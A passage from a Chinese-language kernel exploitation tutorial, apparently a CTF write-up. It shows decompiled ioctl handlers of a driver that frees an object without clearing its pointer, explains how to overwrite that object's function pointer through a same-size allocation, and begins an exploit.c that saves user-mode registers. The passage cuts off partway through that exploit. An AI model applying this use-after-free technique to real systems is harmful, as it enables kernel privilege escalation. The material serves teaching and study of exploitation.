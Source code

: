         return 0LL;
    v14 = global_uaf_obj-&gt;arg;
    printk(&amp;unk_809); // 4[x] Calling 0x%p(%lu)[x]
    ((void (__fastcall *)(__int64))global_uaf_obj-&gt;fn)(global_uaf_obj-&gt;arg);
    result = 0LL;
`}`
</code></pre>
</li>
<li>
**创建一个`k_obj`，并向其传入数据，交互码`0x8008FE05`：**
<pre><code class="lang-c hljs cpp">if ( cmd == 0x8008FE05 )
  `{`
    v17 = kmem_cache_alloc_trace(kmalloc_caches[1], 0x24000C0LL, 0x60LL);
    if ( v17 )
    `{`
      copy_from_user(v17, v4, 0x60LL);
      printk(&amp;unk_825);
    `}`
    else
    `{`
      printk(&amp;unk_6C8);
    `}`
    return 0LL;
  `}`
</code></pre>
</li>
<li>
**释放一个Chunk，交互码`0xFE06`：**
<pre><code class="lang-c hljs cpp">case 0xFE06u:
    kfree(global_uaf_obj);
    printk(&amp;unk_843); // 4[x] uaf object freed [x]
    result = 0LL;
    break;
</code></pre>
</li>
这里的漏洞很明显，程序在释放那个`Chunk`时，并没有将其释放后的指针清零，这将造成`UAF`漏洞。

#### 利用`k_obj`控制执行流

那么，如果我们首先创建一个`Chunk`并释放，`global_uaf_obj`将指向一个已被释放的`0x58`大小的`Chunk`，接下来我们创建一个`k_obj`，由于大小相近，他们将处于同一个`cache`，而`k_obj`的内容是可控的，这将导致我们可以控制`global_uaf_obj -&gt; fn`利用代码如下：

```
//gcc ./exploit.c -o exploit -static -fno-stack-protector -masm=intel -lpthread
#include&lt;stdio.h&gt;
#include&lt;fcntl.h&gt;
#include&lt;string.h&gt;
#include&lt;stdlib.h&gt;
#include&lt;unistd.h&gt;
#include&lt;pthread.h&gt;

void init()`{`
        setbuf(stdin,0);
        setbuf(stdout,0);
        setbuf(stderr,0);
`}`

size_t user_cs, user_rflags, user_ss, user_rsp;

void save_user_status()`{`
    __asm__(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_rsp, rsp;"
        "pushf;"
```